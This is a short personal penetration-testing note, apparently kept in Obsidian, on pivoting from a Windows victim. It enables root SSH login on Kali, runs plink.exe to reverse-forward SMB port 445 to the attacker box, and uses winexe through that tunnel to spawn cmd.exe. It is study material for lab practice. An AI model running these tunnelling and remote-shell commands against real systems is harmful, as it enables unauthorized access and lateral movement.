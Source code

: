 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

Transfer to vic:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[4._File Transfers#Certutil]]

on Kali:
```bash - kali
apt install ssh
```

```bash - kali
mousepad /etc/ssh/sshd_config
```

Change line 33 to:

PermitRootLogin yes

![[Pasted image 20220203142521.png]]

> ALSO, if not working, try changing port to something other than 22 on line 14, then restarting ssh service.

```bash - kali
service ssh restart
```

```command prompt - windows
plink.exe -l kali -pw kali -R 445:127.0.0.1:445 $KALI -P 22
```

Now you'll see you're back in your Kali box!

![[Pasted image 20220203144819.png]]

Use winexe to login through local port and spawn cmd:
```bash - kali
winexe -U $USER%$PASSWORD //127.0.0.1 "cmd.exe"
```

Hit enter a few times:


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
